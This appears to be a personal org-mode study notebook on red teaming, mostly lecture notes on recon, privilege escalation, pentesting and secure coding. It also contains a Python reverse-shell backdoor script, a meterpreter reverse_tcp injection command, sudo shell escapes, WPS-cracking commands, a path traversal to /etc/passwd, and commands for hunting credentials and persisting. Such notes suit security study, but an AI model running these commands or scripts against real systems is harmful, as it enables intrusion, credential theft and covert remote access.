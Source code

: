 #+TAGS: red_team


* Red Team
* Process
** Recon
*** Tools
- nmap
- recon-ng
- httrack
- tinfoleak
- theHarvester
**** Geoip - python
- this lib is used to pull data from the mindmax db
- first we need the midmax db
#+BEGIN_SRC sh
wget -N -q http://geolite.maxmind.com/download/geoip/database/GeoLiteCity.dat.gz
gzip -d GeoLiteCity.dat.gz
pip install geoip
#+END_SRC
- for examples of use
https://github.com/appliedsec/pygeoip/wiki
*** Web Tools
- haveibeenpwned.com

** [[file://home/crito/org/tech/security/security_concepts/enumeration.org][Enumeration]]
** Service/Device Analysis
- Web
- Database
- Mail
- Firewall
- WAF
Run an analysis on all services/devices of intrest

** Exploitation
*** Passwords
**** Cmds
- [[file://home/crito/org/tech/security/security_tools/hashcat.org][hashcat]]
- [[file://home/crito/org/tech/security/security_tools/john_the_ripper.org][John the Ripper]]
**** Links
[[http://www.adeptus-mechanicus.com/codex/jtrhcmkv/jtrhcmkv.php][John the Ripper and Hashcat - Markov Mode Comparison]]
** Priv Escalation
*** [[https://www.youtube.com/watch?v%3Ddk2wsyFiosg&t%3D37s][Linux Privilege Escalation - Jake Williams]]

- Only root users can:
  - Effectively hide
  - Bind ports below 1024
  - Read/Write any file
  - Persist easily between reboots
    
+ Binary exploits (shellcode) should be a last resort
  - Some priv escalation is a waiting game
    - writing a file to a cron.d directory
    - Must wait for crond to restart
    
- Kernel issues
  - uname -a
  - /etc/release
  - /etc/issue
  
- LMGFY to find known issues with these kernels and releases
  
+ Just because you find a kernel exploit doesn't mean you should use it
  - it might not be stable; immediate crash
  - You might get root and then crash the box
  - The exploit might have undesirable artifacts that get you caught

+ Simpler exploits are always better
  
+ Exploiting a vuln program running as root gives you root
  - Look for web servers, mail servers as a command injection here gives you root privs

+ Binary exploits of a root owned program are far less dangerous than a kernel exploit
  - Even if service crashes, the machine doesn't
  - Services probably will auto-restart

+ Trivially vuln setuid programs
  - run the ltrace cmd against any setuid and setgid programs found
  - A rediculous number of these are homegrown and use the 'system' syscall
  - If they don't specify the path, you win
    
  - Look for setuid programs with:
   - find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/gaping-security-hole

+ Cron jobs
- Can you read cron files owned by other users?
- Even if not some careful scripting with ps can help you find frequently run jobs
- Are any scripts or binaries in cron jobs subject to tampering?
- What about cron files themselves?
- Can you write to a cron.d directory?

+ Weak Permissions on Scripts
  - If a script with user writeable permissions is invoked as root, it may be modified to run arbitrary commands
  - Always check both world writeable and user writeable permissions before admitting defeat

  - Don't jush check the scripts called by priv users, many of these call other scripts internally
    - And many of those have weak permissions 
      
+ Weak permissions on binaries
  - user writeable permissions on binaries are less common than on scripts
  - unlikely to find world writeable binaries
    - but grop writeable bins are not unheard of, esp in custom software
      
+ Weak permissions on LD_PRELOAD
  - The LD_PRELOAD environ variable is a way to load a specific version of a shared lib for a given application
    - LD_PRELOAD is ignored for setuid programs
      
  - However a program may be invoked as root and be vuln
    
+ That shouldn't be setuid/setgid
  - An amazing number of sysads don't understand what should and shouldn't be setuid
  - Any command in sudo that can edit or overwrite files is an ob risk
  - Users with restricted sudo access can use it to obtain unrestricted root perms
  - In performing incident response, we've also seen obscure editors with the setuid bit set  
  - This is presumably a backdoor for the attacker to regain root perms at will
  - We sincerely hope no sysadmins are stupid enough to have setuid perms on editors
  - using the :shell in vi provides a root shell  

+ Don't sudo less
  - The less tool often used to page files can invoke an editor
  - On some buntu sys the default nano
  - Many sys still use vi as an editor
  - less can use ed to drop into default editor, and if vi you can spwan a root shell
  
  - more cmd is just as bad as less
    - ? key to see options    
    - ! will invoke shell cmds on most sys
      - !bash
      
+ Don't sudo cp and mv
  - We can't think of a good reason for either
  - With sudo cp of sudo mv, you can overwrite /etc/shadow or other critical files and obtain bd access
    
+ Don't sudo find
  - The find cmd is often set with sudo perm so helpdesk can find and clean large temp files
  - Besides obs screw up ops, this is a big sec hole
  - find . -exec bash -i \;
    
+ Don't sudo script interpreters
  - All unsafe:
    - Python
    - Perl
    - Ruby
    - Lua
    - others...

- Perl
#+BEGIN_SRC pl
sudo perl
exec "/bin/bash";
#+END_SRC

- Ruby
#+BEGIN_SRC rb
sudo ruby
exec "/bin/bash"
#+END_SRC

- Python
#+BEGIN_SRC py
sudo python
import os
os.system('/bin/bash/')
#+END_SRC

** Maintaining Access 
** Covering Tracks
* Attacks
** Clickjacking
URL: https://www.owasp.org/index.php/Clickjacking

** Cold boot
** Command Injection
- using hex to move to the passwd file
#+BEGIN_SRC sh
2E2E2Fetc/passwd
#+END_SRC
 - /../etc/passwd
** Cookie-Stuffing
** Cross Site Request Forgery (CSRF)
*** [[https://www.youtube.com/watch?v=iY74zUB6Mpk][Cross-Site Request Forgery Attack Lecture - Kevin Du]]
- Countermeasures against CSRF Attacks
  - Secret Token
  - do not attach cookies for Cross-Site requests
    - this could break functionality (this is an extreme measure)
  - Same-Site Cookie
** [[file://home/crito/org/tech/security/attacks/xss.org][Cross Site Scripting (XSS)]]
** Cross Site Tracing (XST)
** DLL injection
** Drity Cow
Github: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Github: [[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs][List of POC]]

** Evil Maid
** Heartbleed
** HTTP Response Splitting
** Local File Inclusion Vulnerability
** Man in the Middle
** Pixie Dust Attack
- Wifi Protected Setup (WPS)
- Uses a PIN to allow access to home network

- 8 digits - 7 | 1 - checksum
  - 7 -> 4 + 3
    
- Problem is how the protocol generates the E S1 and E S2 values, pseudo random numbers
- Some vendors also implement the protocol poorly
- Broadlink uses the C rand() function
- Ralink never generates an E S1 or E S2 value and they remain 0

- if the random number state is recovered then E S1 and E S2 can be calculated
- PSK1 and PSK2 can be calculated from the E-hash1 and E-Hash2 values
*** aircrack
1. airmon
2. wash -i wlan0mon
3. Copy the ESSID
4. reaver -c 1 -i wlan0mon -b <essid> -vv -K 1
- if this fails you can always bruteforce the wps
#+BEGIN_SRC sh
reaver -c 1 -i wlan0mon -b E0:91:F5:6F:3F:C6 -vv
#+END_SRC

** Ruby attack
** RPCBomb
url: http://www.theregister.co.uk/2017/05/04/linux_rpcbind_vulnerability/
** Shellshock
** SMB Relay Attack

** SMTP Injection
** [[file://home/crito/org/tech/security/attacks/sqli.org][SQL Injection]]

* Code
** Python
*** Backdoor Shell
#+BEGIN_SRC py
#!/usr/bin/python
import subprocess #Process commands
import socket #Process socket data

host = '127.0.0.1' # Attack Machine
port = 443 # Attack Port
passwd = 's3cr3t' 

# chek password
def Login():
    global s
    s.send("Login: ")
    pwd = s.recv(1024)

    if pwd.strip() is passwd:
        Login()
    else:
        s.send("Connected #> ")
        shell()

# Execute shell cmds
def Shell();
    while True:
        data = s.recv(1024)

        if data.strip() == ":kill":
            break

        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = proc.stdout.read() + proc.stderr.read()
        s.send("#> ")

# Start Script
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
Login()
#+END_SRC
* Databases
- NVD (National Vulnerability Database)
- Open Source Vulnerability Database
- 
* Lecture
** [[https://www.youtube.com/watch?v%3DgYOy7CGpPIU][The Making of atlas: Kiddie to Hacker in 5 Sleepless Nights]]
http://atlas.r470y.com/ - atlas blog   

- Tools
  - objdump - reads the headers of executables
    - objdump -x demystified - this will dump all headers
  - ReadElf
  - GDB
  - Ktrace/KDump
    
** [[https://www.youtube.com/watch?v%3D0fbBwGAuINw][How to Exploit Metasploitable 2 with NMap, Nexpose, Nessus and Metasploit]]

- getting a html report from nmap report
#+BEGIN_SRC sh
nmap -O -sV -sC -oX nmap-scan.xml 192.168.56.101
cp /usr/share/nmap/nmap.xsl .
#+END_SRC
We need the nmap.xsl as it is the stylesheet for the xml file

- Vulnerability Scanners
  - OpenVAS
  - Nessus
  - Nexpose
** [[https://www.youtube.com/watch?v%3D4uN44YfsQPk][The Wizard of Oz - Painting a Reality Through Deception - David Kennedy]]
- SE Attacks Explained
  1. Homework
  2. Threat Model
  3. Attack
  4. Persistence and Exfil
     
- email marketing or forward facing people to discover what company email looks like
  
- ms diagnostics - exploit vector
- excel macros - less so 
- hta files - exploit vector

- Sending the fish out
  - only send it to one person at a time - then wait 1hr before pushing to next person
    
- C & C
  - lateral movement to needed data
    
- snoof app - for spoofing phone numbers
  
- padgeant - putty feature that saves crts for ssh
** [[https://www.youtube.com/watch?v=xXqyogdxITE][The Dirty Little Secrets They Didn't Teach You In Pentesting Class]]
- Domain Admin or Bust
  - Usually this means adding yourself as one (aka fastest way to get caught)

- Pentesting Goals
  - What's out goal?
  - Vulnerability Driven vs Data Driven vs Capability Driven pentest/goal
  - What's a *good* goal?
    - Domain Admin is "A Goal" but it's a stupid goal
    - What makes the client money is a better goal (if you can identify it)
    -Problems arise in actually identifying this. What's important to testers vs client vs bad guys
    - Best goal, testing client's ability to detect and respond to various levels of attackers
      
- Majority of 'Pentesting' going on today

Run Scanner ---> Exploit ---> Report

this is useless, the evidence is need to identify where the failures occured

- A Better Way
  
Intelligence Gathering ---> Foot Printing ---> Vulnerability Analysis ---> Exploitation ---> Post-Exploitation ---> Clean up

- Actual Attack Scenarios

Prepwork/Analysis ---> Intel Gathering ---> Targeting ---> Exploitation ---> Post-Exploitation

- Prep Work
  - make your click scripts
  - update your stuff
  - have script and screen ready to go  

- Tips
  - screen/tmux so you don't lose your shell
  - use script to log all of the session
  - One of these passwords almost always works
    - password
    - Password
    - pssw0rd
    - Password123
    - welcome
    - welcome123
    - $Company1
    - $Comapany123
    - changeme123
    - p@ssw0rd
    - p@ssw0rd123
    - Username123
      
  - Nmap Scripts
    - Best scripts don't fire off automatically with "-A"
    - Some of the better scripts...
      - Citrix, NFS, AFP, SNMP, LDAP
      - Database coverage
      - http*
      - Losts of handy stuff, some overlap with MSF aux but some things sux doesn't have.
	
  - MSF Auxiliary Modules
    - Handles all the BS for you
    - Uses lib/rex == "Ruby EXploitation library"
      - Basic lib for most tasks
      - Sockets, protocols, command shell interface
      - SSL, SMB, HTTP, XOR, Base64, random text
      - Intended to be useful outside of the framework
    - Lib/rex ported to a ruby gem
      - can make use of rex outside of MSF
    - Designed to help with reconnaissance
    - Dozens of useful service scanners
    - Simple module format, easy to use
    - Specify THREADS for concurrency
      - Keep this under 16 for native Windows
      - 256 is fine on Linux
   - Uses RHOSTS instead of RHOST 	

- Post-Exploitation
  Mubix docs on post-exploitation
  - http://www.room362.com/blog/9/6/post-exploitation-command-lists.html
  - http://bitly.com/qrbKQP
    
  - Best persistence method?
    - Meterpreter
      - HTTPS
      - Pro's Persistence Agent
    - MOS_DEF?
      - Thunderbird SPAM Persistence
      - DNS, HTTP, HTTPS, etc
    - CORE Agent?
    - Wiz-bang custom binary/backdoor
    - RAT
  Better Method
    - RDP/VNC to outward facing box 
      - MyPasswords.txt will be kept on the fileshare somewhere

  - Send shells to team mates
    - run multi_meter_inject -pt windows/meterpreter/reverse_tcp -mr 1.2.3.4 -p 80
    - always have a spare shell
      
- Find Stuff Internally
  - Good
    - Nmap - up load to a target
    - Ping
    - Nessus 
    - Nexpose
    - "net view / domain"

  - Better
    - OSQL (MS binary should cause any problems to install)
      - osql -L 
         - will let you know all the SQL servers it knows about
         - can use it to connect to databases

    - DSQUERY / DSGET (annoying)
      - dsquery computer -limit 0 - current domain
      - dsquery user -limit 0
      - dsquery computer -limit 0 "DC=company,DC=net"
      - dsquery user -limit 0 "DC=company,DC=net" - other domains
    - the above can be done with adfind (this is DSQUERY on steroids)
      
    - nltest
      
  - BEST
    - Railgun - provides the windows API
    - NetDiscovery (part of MSF) - SQL, DC, UNIX, Novell selections
    - DomainDiscovery
      - what domains do you have acces to?
      - Are they domains?
      - What are the names of all their domain controllers? 
	
- User Discovery
  - Good
    - net group "domain admins" /domain
    - net group "domain admins" /domain:DM
    - net localgroup  Administrators
    - net group localgroup Administrators /domain
    - net user domainadmin_username /domain
    - net user username/domain
      
  - Better
  - Rpcclient
    - Enumerate users
      #+BEGIN_EXAMPLE
      #!/bin/bash
      for i in {500..600}
      do
        rpcclient -U "user%Password1" -W DOMAiN 1.2.3.4 -c "lookupsids S-1-5-21-1289870925-1615939633-2792171844-$i
      done	
      #+END_EXAMPLE
      
  - BEST
    - UserDiscovery
    - DisplaySessions
    - PVE-Find-AD-User
    
  - Creating Zombies
    - RunAs
      - ShellExecute
      - CreateProcessWith
      - Logon, LogonUser
    - WCE+ (can cause system to crash)
    - runhash32/64 - user level psexec == zombie user & token
      
  - Run executable in memory
  #+BEGIN_EXAMPLE
  meterpreter > execute -H -l -c -m -f bins/newbinary.exe
  #+END_EXAMPLE
  this will start a binary on the target remove and replace it with the desired binary on the host
  
- Privilege Escalation
  - Good
    - getsystem
      - use the options or you will use your shell
    - Post modules
      - Keyboard layout
      - Bypassuac
    - Core Impact /Canvas ship with locals
      
  - Better
    - DomainDrop

  - BEST
    - Just ask for it...
    - Ask module
    - Tasklist
      - tasklist /V /S $IP /U $user /P $password
    #+BEGIN_EXAMPLE
    for /F "skip=3 delims=\ " %A in ('net view') do tasklist /V /S %A /U $user /P $password
    #+END_EXAMPLE
    
- Finding the Gold
  - Dir /s "My Documents"
  - Dir /s "Desktop"
  - Dir /s *.pcf
  - ListDrives
    
Searching for files
  - dir c:\*password* /s
  - dir c:\*competitor* /s
  - dir c:\*finance* /s
  - dir c:\*risk* /s
  - dir c:\*assessment* /s
  - dir c:\*.key* /s
  - dir c:\*.ica /s
  - dir c:\*.crt /s
  - dir c:\*.log /s
  - dir c:\*.vsd /s
    
Searching in files
  - findstr
    - password
    - secret
    - confidential
    - account
      
  - Better
    - Dumplinks
    - GetFirefoxCreds
    - GetPidginCreds
    - Outlook, IE, Chrome, RDP Password Extraction
      - Basically the whole credentials post module section
    - SharePoint
    - Intranet.company.com
      
  - BEST
    - OpenDLP
    - Fiction's Database Searcher
    - Search in Meterpreter
      - Uses windows indexing ie outlook email
    - Dir /s $share > filetosearchoffline.txt
      - Findstr
	
- Pivoting
  - Portforwarding
    - Meterpreter portfwd
    - Route
    - Sock4a module + meterperter session
    - Pro VPN Pivot
  - Portproxy
    - Built into Windows
    #+BEGIN_EXAMPLE
    netsh interface protproxy>add v4tov4 listenport=25 connectionaddress=192.168.0.100 connectionport=80 protocol=tcp
    #+END_EXAMPLE
    will not show on netstat
  - Legitimate Access via VPN, Term Server, Citrix, etc
    
- Persistence
  - Autoruns
  - Smartlocker - http://blog.metasploit.com/2010/12/capturing-windows-logons-with.html
  - Fxsst.dll
    - https://blog.mandiant.com/archives/1786
    - http://www.room362.com/blog/2011/6/27/fxsstdll-persistence-the-evil-fax-machine.html
  - gpo_dropper hbgary
  - IPv6 Dropper

https://github.com/mubix/Not-In-Pentesting-Class

** [[https://www.youtube.com/watch?v=PYwqyVlH8lQ][Security Testing Fundamentals - Ken van Wyk]]

- ccc paper on format strings vuln in C

- Testing Methods
  - Fuzzing
    - hit software with random/garbage data
    - look for unanticipated failure states
    - observe and record
    - MS estimate 20-25% of bugs found this way
  
    - Smart Fuzzing
      - check releveant rfc for required fields
        - what happens if missing, or more are added
    - Tools
      - OWASP's JBroFuzz
      - PEACH
      - SPI Fuzzer
	
  - Pen Testing
    
  - Dynamic Validation
    - Time to verify all those security requirements and functional specs
      
  - Risk-basd Testing
    - Start with abuse eases, weakness scenarios
    - Describe and script them
    - Try them one step at a time
      
  - Threat modeling
    - Who would attack us?
    - What are their goals?
    - What resources do they have?
    - How will they apply technology?
    - How much time do they have?

** [[https://www.youtube.com/watch?v=Q2WK5LpDbxw][Finding Bugs with Burp Plugins and Bug Bounty 101 - Monika Morrow and Ben Sadeghipour]]

- Why Burp Plugins
  - Automate testing of apps
  - Automate finding new vulns
    
- Burp Extender
  - Signigicantly expanded API
  - Multiple extension support
    
- source code for example plugins (these are in java, but other languages can be used)
  - https://github.com/monikamorrow
    

- Platforms 
  - BugCrowd - managed and unmanaged programs
  - CrodCurity
  - Synack - you have to sit an exam to become a researcher
  - HackerOne - managed and unmanaged programs
  
** [[https://www.youtube.com/watch?v=aNyK1yVLLRI&feature=youtu.be][The Bug Bounty Field Manual - Adam Bacchus]]
   
Docs: [[file://home/crito/Documents/Security/Red/Bug-Bounty-Field-Manual-complete-ebook.pdf][Bug Bounty Field Manual]]

** [[https://www.youtube.com/watch?v=9qeZBJuk6tg&t=16s][Advanced Hacking Workshop with Frans Rosen and Peter Yaworski]]
   
- Approach the target
  - swf always an indicator of vuln
    - ZeroClipboard.swf
    - flowplayer.swf
    - swfupload.swf
    - clippy.swf
    - jplayer.swf
    - amine.swf
    - Lime.swf
    - columns.swf
    - video.swf
    - video-js.swf
  - URL Validation  
    - difficult to inplement correctly
  - Open Redirects
    - why is the company trying to redirect me
  - Third party scripts
    - very good area as less worried over security
  - Subdomain Takeover
    - company stops hosting domain, but is still pointing to it
    - hosting comapnies heroku, aws, azure will allow you to take over these subdomains 
  
* Tutorial
** PluralSight - System Hacking - Dale Meredith

*** Intro

What to do before attack
+ recon & footprinting
    - ip range
    - Namespace
    - Public Data
+ Scanning
    - ID targets
    - ID services
    - ID O/S
+ Enumeration
    - User lists
    - Security flaws
    - Resources

What are our goals
+ Gain Access
+ Maintaining Access
+ Covering Tracks


**** Gaining Access
Complexity - MS you must use at least 3 of Upper case, Lower case, Numbers and Special characters
Password recovery time simulator - free

***** Architecture
****** Windows
Local machines: SAM Database - C:\windows\system32\config\sam
Stored as hashes - mounted as HKLM/SAM
Older machines may have C:\windows\repair with backups of passwords

Active Directory: ntds.dit - C:\windows\ntds
stores all passwords for domain controller     

****** Linux
/etc/shadow

****** OS X
/var/db/dslocal/nods/default/users

ophcrack to crack the hash - ophcrack has a live cd


****** Techniques Used
+ Dictionary Attack - Text files of words - Languages - Subjects
+ Brute-Force Attacks - Takes longer - beyond 14+ starts getting difficult
+ Syllable Attacks - Dictionary and brute-force attack
+ Hybrid Attacks - Dictionary using variation on numbers & special chars
+ Rule-Base Attacks - Using discovered rules to specify shape of password
+ Guessing - Using information gleaned to make educated guesses - social media etc
  
****** Types of Attacks
| Passive Online | Sniffing, MIM, Sidejacking(firesheep)             |
| Active Onle    | Hash injection, trojan/keylogger                  |
| Offline        | Rainbow, Distributed network, pre-computed hashes |
| Non-electronic | Dumpster diving, social engineering               |

Hashes 
LM Hash - des
+ LM Hash/NTLM stores passwords up to 14 chars
+ All characters are converted to UPPER case
+ Padded with blank characters to fill out all 14 chars.
+ Then split into 7 chars stings
+ Each 7 char string is then encrypted and combined back 

NTLM 1 - md4 NTLM 2 - md5
Bwayne:1005:85D8D0AEB8D112F8F9954FC9DF57E012:ED7B273FDE21FFE559AC8D1B9D3729BC:::
Administrator:500: xxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:NOPASSWORD**********************:NOPASSWORD*********************:::

Notes
+ 500 cid in MS is always admin
+ Any hash that ends with: AAD3B435B51404EE - last 7 chars blank
+ Any password with 15+ chars: the LM hash value is "dummied" with AAD3B435B51404EEAAD3B435B51404EE

****** NTLM Authentication
+ NTLM is used whtn 
  - There is no Kerberos trust between two different forests
  - Authentication is attempted by IP and not by DNS
  - If oe or both systems are not in the same domain
  - If your FW is blocking Kerberos ports
  
******* How it's used
+ Challenge response algorithm
+ Passwords are not transmitted
+ V1 came with NT - V2 cam with NT SP4

******* The Process

user enters pass -----> windows generates a hash
        |
        |
        ---------------------------------------------> Domain Controller
	                      Request                            |
          <-------------------------------------------------------	
                             hash sent by DC
       ---------------------------------------------------------->
                      hast and challenge sent back
		      
****** Kerberos Authentication - used on modern MS
+ Ticket based
+ Avoids transmitting passwords
+ Time based

1. user requests TGT 
2. DC issues TGT
3. TGT is presented to machines in the network to access services
PDC needs to be synced otherwise kerberose doesn't work

****** Salting 
+ Append or prepending random strings
+ done before hashing
+ prevents duplicate hashes
+ unique to each password
  
****** Rainbow tables
+ Precomputed hash tables
+ Huge files

+ website for checking hashes tobtu.com 
+ lm hash checking hashes rainbowrables.it64.com
+ dictionaries can be found at outpost9.com

**** Maintaining Access
     
+ Look around
  - config errors
  - design errors
  - layouts
  - programming flaws

***** Four Methods for Escalation
1. Pwn the admin/root acct
2. Take advantage of vuln
3. Fire up the sploit - alt to sploit - canvas, core-impact
4. Have a user do it for you!

***** Types of Escalation
+ Vertical - user gains admin level access
+ Horizontal - move to a user 
  
***** Counter Measures
+ encryption - encrypted hdd 
+ Least priv - don't over allocate a user
+ sw upto date
+ Limit interactive logon
+ Service accts are limited
+ Limit code that can run with privs

***** Slow down attacker
+ Priv separation approach
+ test os and app code before running
+ Multi-factor
+ Stress test code, apps befor deploying

**** Cover Tracks

** ISSA Web Pen-testing Workshop
*** [[https://www.youtube.com/watch?v%3DJPd2YtgJm8Q][Intro to Mutillidae, Burp Suite & Injection]]
*** [[https://www.youtube.com/watch?v%3DxSqw-KwQatI][Webshells]]
- on kali they are found in /usr/share/webshells

- weevely - github and kali more advanced webshell
  - instead of using puts ands gets it uses cookies
- neopi - 
*** [[https://www.youtube.com/watch?v%3DKJn2HIpFmO0][HTML & Javascript Injection]]
- burp sutie has a builtin decoder for encoding webshell code
*** [[https://www.youtube.com/watch?v%3Dt-44ZsaeIQE&t%3D3s][Beef Hooks]]
*** [[https://www.youtube.com/watch?v%3Dd71YfVR1eWA][JSON Injection]]

** Offensive Security 2013 - FSU
*** [[https://www.youtube.com/watch?v%3D4yNgP3CUOWo][Lecture 2: Linux Overview]]
*** [[https://www.youtube.com/watch?v%3D3y8JuixcSdU][Lecture 7: Fuzzing]]

- Exploitation Theory
  - Von Neumann Arch
    - unable to distinguish between data and instructions
    - instruction and data stores in same memory
      - this allows for the modification of code
  - Harvard Mode
    - this seperates out data and instruction into there own memory
      - this is implemented inside processors for specfic tasks, but not on whole systems
  - Other Architectures
    - Tagged Arch
    - Capablility Arch
    - Trusted Computing Base

- Exploits can be generalized into a three step process
1. Some sort of memory corruption
2. Change / hijack of control flow
3. Execution of the shellcode
   
- What is fuzzing?
  - The process of sending specific data to an application in hope to elicit certain responses
  - Specific?
    - Mutated data, generational data, edge cases, unanticipated datatypes, etc.
  - Certain?
    - crashes, errors, anomalous behaviour, different application states
      
- Fuzzing Phases
  1. Identify Target (application)
  2. Identify inputs
  3. Generate Fuzzed Data
     - Two methods for fuzzing data
      i) Generation
      ii) Mutation
  4. Execute Fuzzed Data
  5. Monitor for Exceptions
  6. Determine Exploitability
     
- Methods for generating fuzzed data
  - Generation fuzzing
  - Mutation fuzzing
    
- Generating fuzzed data
  - String repetitions
    - A*10, A*100, A*1000
  - Character translations
  - Directory Traversal
  - delimiters
  - Metacharacter / Command injection
    - sql -- comment
  - File types
  - Bit Flipping for protocol headers

Vulnerablility Scoring
http://www.first.org/cvss

HAOE book cd has a vanilla system that has a lot of the counter measures switched off 

** Offensive Security 2014 - FSU
Owen Redwood
*** [[https://www.youtube.com/watch?v%3Dlk3rp53b2NA][Lecture 1: Intro]]
- reading list
  - hacking the art of exploitation
  - the hacker's handbook to web applications

*** [[https://www.youtube.com/watch?v%3DlbjS2mXyMEQ][Lecture 2 - Secure Coding in C]]
- web tool that visuzlises code to assemby
  - http://gcc.godbolt.org
- reading list    
  - Secure Coding in C and C++ - Robert Seacord
    
http://websec.github.io/unicode-security-guide/character-transformations/

*** [[https://www.youtube.com/watch?v%3DyXX6DWFTLaQ][Lecture 3: Secure Coding in C cont]]
reading:
http://blog.reghr.org/archives/1054 - cryto lib bugs
http://www.cs.utah.edu/~regehr/papers/overflow12.pdf
http://floating-point-gui.
0x352 HAOE - Formatted Output Security
0x280 up to 0x300
0x350 up to 0x400

Race conditions
  - CVE-2007-4303
  - CVE-2007-4302

*** [[https://www.youtube.com/watch?v%3DMnmX911MqMU&t%3D3176s][Lecture 4]]
Links:
[[http://cve.mitre.org][Common Vulns and Exposures - CVE]]
[[http://cwe.mitre.org][Common Weakness Enumeration - CWE]]
[[http://cce.mitre.org][Common Configuration Enumeration - CCE]]
Seven kingdoms of exploit
[[http://nvd.nist.gov/home.cfm][National Vuln Database]]

CVEs
- list of information security vulns that aims to provide common names for publicly known problems
- Goal to make it easier to spread/share data
- Run by MITRE

Vuln - "is a mistake in software that can be directly used by a hacker to gain access to a system or network"

CCE
- Assigns unique identifiers to configuration guidance statements
  - The required permissions for accessing the directory %System Root%\System32\Setup should be "Administrator Account" only
  - The "account lockout threshold" for failed password attempts should be 3
  - For Linux, passwords should be stored in either SHA256 or SHA512 or the default DES formats and in the /etc/shadow file not the /etc/passwd file
    
CWE
- A softwate weakness is an error that may lead to a software vuln, such as those enumerated by the CVE list
- Examples software weaknesses include:
  - buffer overflows, format strings, etc
  - structure and validity problems; common special element manipulations
  - channel and path errors
  - handler errors
  - user interface errors
  - pathname traversal and equivalence errors
  - authentication errors
  - resource management errors

Code Nomenclature

Code ----> Bugs ----> Weaknesses ---- --> Exposures  -----> 
                                                            |                                     Exploited Vulns
							    ----   Vulns   ----------> 

Discovering Vulns
3 Primary Methods:

1. Source code Auditing
  - Requires Source Code
    
2. Reverse Engineering
  - Can be done withourt source code
  - Requires binary applications
  - very time consuming and requires high technical skill
    
3. Fuzzing
  - Lost of tools/Frameworks exist
  - Easy to make custom ones
  - Binary or source code availability is unimportant 
    
Auditing tools
- Author's source code comments
- Editors/Reading Tools
  - vi/emacs; source insight; eclipse; source-navigator
-Pattern matchng tools    
- Static analyzers
  - prone to missing vulns
  - prone to false pos+

Approaches
- Find the most bugs?
- Find the easiest to find bugs?
- Find the weaknesses that are most reliable to exploit?

It is important to limit the approach
 - will never have enough time to find all the bugs
   
General Methodology
1. Understand the Application
   - features
   - Architecture
     - what over services does the application require
   - Programming Lang
   - Compnents
      - DB - try to hit db for sqli
      - file shate - try to upload a file
     
2. Understand the Attack Surface
   - You must choose which ones to focus on 
     - Sabotage
       - defacing, attacker deleting records, altering them, destroying user trust
     - Gaining Access
       - attack / harass other users
       - botnet
       - identity theft
     - Piracy/theft

3. Target your efforts
   - depends on your style
     
Targeting: How to think like an attacker
  Traditional strategies:
    - ipurt sources related to code paths
    - target important components
      - security mechanisms
        - Auth
	- http/https
      - Data mgmt/DB
      - Interpreters (php)
    - Complex parsing, protocols or functions 
  Meta Targeting startegies
    - Start by looking at source code comments      
      - grep for:
        - fix this, todo!, xxx, *****
        - swearing/typos
        - old code
          - old libs
	- code checked in at 4am
	- code checked in at same time as other buggy code
	  
Reading Code
  - Review fewer than 200-400 lines of code at a time
  - Faster code review is not better
    - Optimal code review is around 300-500 loc
  - Never review code for more than 90 mins at a time
    -significant diminishing returns after this
  - Be thorough
    - vast majority of code is ok
  - Avoid making assumptions    
    - can cause you to miss bugs, or assume something is done correctly
  - Look for abstraction
    - switching between C and C++ styles of code
      - two different devs with different backgrounds > bugs
  - Focus on code patterns
    - copy paste chunks
      - forgetting to up chuck variables

-------------------------

Look up off by one errors
sizeof !=strlen
- size of bytes not elements
  
Programs in memory
- .txt section
   - contains machines intstructions
- .data section
   - global initialized variables
- .bss section
- heap section
- stack section
  
Gerenal Bug Categories 
1. API Based Bugs
2. Programming Construct Errors
3. State Mechanics
4. External Resource Interactions
-- refer to the seven kingdoms

*** Lecture 5
+ The Permissions Spectrum

- The Bios
  - The ultimate authority of hw
    
Boot Process
1. Bios
2. POST - Power On Self Test
   - CMOS
   - Hardware initialization
3. Bootloader 
4. OS
   
- The "Academic" Rings model
  - provide different levels of access
    3 - Normal non-root user applications
    2 - Device drivers (keyboard/mice/...)
    1 - Device drivers (video card, etc)
    0 - Kernel
    
- higher than ring 0
